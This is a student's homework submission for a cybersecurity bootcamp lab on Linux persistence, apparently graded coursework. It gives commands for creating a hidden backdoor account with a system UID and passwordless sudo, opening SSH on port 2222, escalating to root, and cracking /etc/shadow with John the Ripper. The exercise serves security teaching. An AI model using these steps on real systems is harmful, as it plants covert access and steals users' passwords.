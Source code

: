 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo useradd sysd
    - Used useradd instead of adduser which would have created a home directory

2. Give your secret user a password: 
    - sudo passwd sysd
    - Had to look this one up as I don't remember going over this in class

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 333 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 333 sysd

5. Give your secret user full `sudo` access without the need for a password:

- I used nano to check /etc/sudoers. I forgot what the line was to set no password needed for sudo.
   
- Copied the following command that was set to vagrant but changed the user to sysd,

- sysd ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
   - I just used sudo nano /etc/passwd



**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

sudo nano /etc/ssh/sshd_config


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

    - sudo service ssh restart or sudo systemctl restart ssh

2. Exit the `root` account:
    exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    
    sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

   ssh sysd@192.168.6.105

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    sudo john /etc/shadow
    
    once that is complete you can run sudo john /etc/shadow --show to see cracked passwords

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

